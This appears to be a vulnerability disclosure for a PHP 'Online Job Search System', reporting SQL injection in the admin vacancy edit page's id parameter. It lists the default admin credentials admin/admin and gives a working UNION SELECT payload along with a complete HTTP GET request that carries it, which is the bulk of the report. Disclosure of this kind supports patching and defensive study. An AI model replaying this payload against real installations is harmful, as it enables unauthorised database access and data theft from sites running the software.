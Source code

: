# Complete Online Job Search System v1.0 has SQL injection

BUG_Author：朝阳

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/vacancy/index.php?view=edit&id=

Vulnerability location: /eris/admin/vacancy/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/vacancy/index.php?view=edit&id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /eris/admin/vacancy/index.php?view=edit&id=-1%27%20union%20select%201,2,3,database(),5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849085-8d0d3c46-e49e-4b85-b4ef-4a7cfdec8428.png)

![image](https://user-images.githubusercontent.com/54017627/170849060-c1e6ef3f-210e-4fd6-b31d-45f433502a5f.png)
